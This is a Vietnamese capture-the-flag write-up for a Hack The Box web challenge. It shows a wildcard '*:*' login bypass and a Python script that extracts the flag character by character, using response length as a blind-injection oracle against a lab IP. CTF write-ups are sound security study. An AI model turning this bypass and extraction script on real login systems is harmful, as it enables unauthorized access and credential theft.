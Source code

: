 # Phân tích

Tham số `message` có thể inject:

![image](https://user-images.githubusercontent.com/114990730/209164490-605200da-8b9b-4183-8759-12c6fba153fd.png)

Chứa lỗ hổng XSS nhưng không khai thác được trong trường hợp này:

![image](https://user-images.githubusercontent.com/114990730/209164714-fcb0c60e-69ce-4801-a012-683e67937a7d.png)

Hơi guessing chút login page bypass bằng `*:*`

![image](https://user-images.githubusercontent.com/114990730/209172304-ab7fe049-4982-4558-bd6a-28c3952e6180.png)

Sau đó chỉ có duy nhất chức năng Search:

![image](https://user-images.githubusercontent.com/114990730/209172402-e4959737-8834-43c6-ba6a-431511743937.png)

Chức năng trả về các đoạn text chứa từ khóa tìm kiếm:

![image](https://user-images.githubusercontent.com/114990730/209172600-2b807a55-4f91-448a-b930-d805e437113e.png)

Có thể sử dụng wildcard characters:

![image](https://user-images.githubusercontent.com/114990730/209175968-8f74287f-bb62-4b7e-af73-f2ab09ed851f.png)

Cũng khá guessing, từ đây nghĩ đến flag có thể là username hoặc password trong form login:

![image](https://user-images.githubusercontent.com/114990730/209176206-bdc70819-14bb-4cab-9156-a7a119676c96.png)

Khi mật khẩu đúng thì độ dài response là 2586, ngược lại là 2214, phân biệt dựa vào yếu tố này. Viết script brute force password:

```
import requests
import string

string = string.printable
string = string[:-4]
string = string.replace('*', '') # 0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"#$%&'()+,-./:;<=>?@[\]^_`{|}~

url = 'http://159.65.19.4:30908/login'

flag = 'HTB{'

while (True):
    for char in string:
        password = flag + char + '*'
        data = {'username': '*', 'password': password}
        response = requests.post(url = url, data = data)
        if len(response.text) == 2586:
            flag = flag + char
            print(flag)
            break

# print(len(response.text)) # 2586
```

![image](https://user-images.githubusercontent.com/114990730/209180639-01979527-4df2-4f18-962a-4d857f66883c.png)
